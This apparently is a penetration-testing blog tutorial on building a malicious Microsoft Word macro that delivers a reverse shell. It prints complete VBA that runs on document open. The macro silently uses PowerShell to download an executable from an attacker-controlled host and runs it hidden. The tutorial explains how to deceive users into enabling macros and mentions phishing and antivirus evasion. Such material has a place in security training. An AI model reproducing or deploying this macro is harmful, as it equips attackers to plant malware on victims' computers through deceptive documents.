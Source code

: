 ```yaml
---
title: "How To Make A Reverse Shell With Microsoft Word Macros"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---
```


## High Level

By leveraging VBA code in a macro inside of a Microsoft Word document we can leverage functionality to open and run command prompts. The user must enable both editing mode and macros or else Microsoft Word will not let command prompt run our reverse shell. We will use some tips and tricks like making sure command prompt does not open visually, making the macro actually run without the user having to do anything to enable it, and it a future post running our payload in memory to leave no trace. Most Microsoft Word users are used to having to "enable editing" and as such rarely question when they have to do it. The tricky part is either hoping or coaxing the user into allowing macros as well; a pop up far less users see and might question at first.

## Microsoft Word Setup

You will obviously need to have Word already installed and able to be ran. While this post will not go into the phishing tactics that also must be involved for a succesful user to allow our document access a future post most absolutely will. Once inside our word document we need to navigate to the Macros section by going to View --> Macros. Once the Macros window pops up we must choose what document to apply this to. You can either select the name of your document or, for a currently unnamed docuement, select "Document1 (document)". If we do not select the current docuement it will default to adding this to our global template. After selecting our current document we must name the macro. Most online tutorials call their macro "MyMacro" but any naming convention here will work. This is also another moment to employ phishing tactics as a more educated user might want to inspect what macros are being ran. Once the macro is named the VBA editor will launch.

Here is the complete macro below. We will work through the macro top to bottom to make sure we understand what is happening.

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```


## Macro Explained

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Are redundant options make making the user run our macro since they might not do this willingly or become highly confused with written instruction. They are both there for scenarios where one might not trigger but they both accomplish the same goal.


```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide
```


This is the heart of the exploit and also where you should adjust your ip address and file name accordingly. To launch the Shell function we need both the exePath and str variables defined; which you can see them as so above. ActiveDocument.Path is used since the powershell download will not go to the normal downloads folder but inside of Word. After each of these shell commands you may notice the vbHide attribute. As one might guess, this hides the command prompts being run from showing allowing the illusion to the user that nothing malicious is happening in the background.


```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
```


We skipped over the Wait (2) command in the paragraph above as it is not as simple as it looks. VBA does not have a built in wait function so instead we have create our own function that does just that. In the end, whatever number you put in Wait (#) will make the program stall for that many seconds. Remember what is happening: we are reaching out to our own server to download the reverse shell. Due to poor internet connection it is possible that the payload is not fully downloaded by the time the macro reaches the execution part and could end up causing a false negative. By including this wait function we give the program ample time to download our payload for execution.

## Saving The File

While you might be tempted to save this as the modern .docx format this will actually stop this from working. Instead, we need to use the much older but still in use .doc Word file extension to make sure our macros are kept with the file.

## Wrap up

In the blog we did not go over how to craft a msfvenom reverse shell. However, I will have blog post coming out soon and will link it here. Additionally, this technique does not practice the best techniques by downling the reverse shell instead of loading and running it in memory. There will also be a blog post comming on this soon and I will link it here. This next step of loading the payload in memory is highly encouraged as many anti virus programs will easily catch or reverse shell or throw up other errors when trying to execute it.
